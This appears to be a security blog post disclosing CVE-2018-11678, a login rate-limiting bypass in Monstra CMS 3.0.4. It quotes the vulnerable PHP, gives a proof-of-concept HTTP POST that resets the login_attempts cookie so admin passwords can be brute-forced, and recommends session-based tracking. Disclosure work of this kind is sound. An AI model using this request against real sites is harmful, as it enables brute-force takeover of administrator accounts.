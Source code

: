 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
modified: 2018-04-01
date: 2018-04-01
title: "Monstra CMS - 3.0.4 Login Rate Limiting Bypass"
tags: [cve]
category: CVE
mathjax: false
imagefeature: 
description: "Monstra CMS - 3.0.4 Login Rate Limiting Bypass"
chart: null
---
```



CVE-2018-11678
---

- **Exploit Title:** Monstra CMS <= 3.0.4 Login Rate Limiting Bypass
- **CVE:**  CVE-2018-11678
- **Vendor Homepage:** http://monstra.org/
- **Software Link:** https://bitbucket.org/Awilum/monstra/downloads/monstra-3.0.4.zip
- **Discovered by:** Abdillah Muhamad
- **Contact:** abdilah.pb@gmail.com
- **Website:** https://abdilahrf.github.io
- **Category:** webapps
- **Platform:** PHP
 
 
MonstraCMS 3.0.4 Implementing bruteforce protection in login form but we manage to bypass because we can control the cookie value.
 
**Vulnerable Code:** https://github.com/monstra-cms/monstra/blob/dev/plugins/box/users/users.plugin.php

line 396-400:

```php
        if (Cookie::get('login_attempts') && Cookie::get('login_attempts') >= 5) {
            
            Notification::setNow('error', __('You are banned for 10 minutes. Try again later', 'users'));
        } 
```
line 422-427:

```php
        if (Cookie::get('login_attempts') < 5) {
            $attempts = Cookie::get('login_attempts') + 1;
            Cookie::set('login_attempts', $attempts , 600);
        } else {
            Notification::setNow('error', __('You are banned for 10 minutes. Try again later', 'users'));
        }
```
line 437-442:

```php
        if (Cookie::get('login_attempts') < 5) {
            $attempts = Cookie::get('login_attempts') + 1;
            Cookie::set('login_attempts', $attempts , 600);
        } else {
            Notification::setNow('error', __('You are banned for 10 minutes. Try again later', 'users'));
        }
 ```
 
#### Proof of Concept

Steps to Reproduce:
- Always set login_attempts cookie to 0 before send the POST request or if you using burp the cookie will not incrementing.

```
POST /monstra-3.0.4/admin/index.php?id=pages HTTP/1.1
Host: 127.0.0.1
Content-Length: 42
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36
Cookie: PHPSESSID=lsmo61pd53fe8gnmv77uck0c07; _ga=GA1.1.876410326.1527893558; _gid=GA1.1.716559964.1527893558; login_attempts=i%3A0%3B
Connection: close

login=admin&password=[PASSWORD_HERE]&login_submit=Log+In
```
 
#### Recommended Patch
Don't use cookie since we can easily control the value using Session much better

